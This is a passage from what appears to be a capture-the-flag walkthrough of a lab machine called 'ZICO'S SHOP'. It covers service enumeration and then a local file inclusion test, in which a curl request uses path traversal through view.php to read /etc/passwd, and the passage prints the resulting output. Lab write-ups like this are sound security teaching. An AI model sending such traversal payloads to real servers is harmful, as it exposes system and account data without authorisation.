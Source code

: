 ```bash
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40921/udp6  status
|   100024  1          51591/tcp6  status
|   100024  1          52516/udp   status
|_  100024  1          58980/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This scan provides more details about each service:
- Port 22 is running OpenSSH 5.9p1 on Ubuntu
- Port 80 is running Apache httpd 2.2.22 on Ubuntu
- Port 111 is running rpcbind

## Web Server Enumeration

###  Exploring the Web Server

We start by examining the web server on port 80, as web applications often have vulnerabilities that can be exploited.

Navigating to `http://192.168.56.106/` in a web browser brings us to a page titled "ZICO'S SHOP". While exploring the links on the page, we notice that the "Ok... Show me the tools?!" link redirects to `http://192.168.56.106/view.php?page=tools.html`.

### Vuln 1: Testing for Local File Inclusion (LFI)

The URL structure `view.php?page=tools.html` suggests a potential Local File Inclusion (LFI) vulnerability. LFI allows an attacker to include files on a server through the web browser, which can lead to sensitive information disclosure or even remote code execution.

Read up more on it [here](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)

To test for LFI, we try to access a common Linux system file:

```
http://192.168.56.106/view.php?page=../../../../../etc/passwd
```

If vulnerable, this should display the contents of the `/etc/passwd` file, which contains information about user accounts on the system.

```bash
┌──(kali㉿kali)-[~]
└─$ curl "http://192.168.56.106/view.php?page=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
```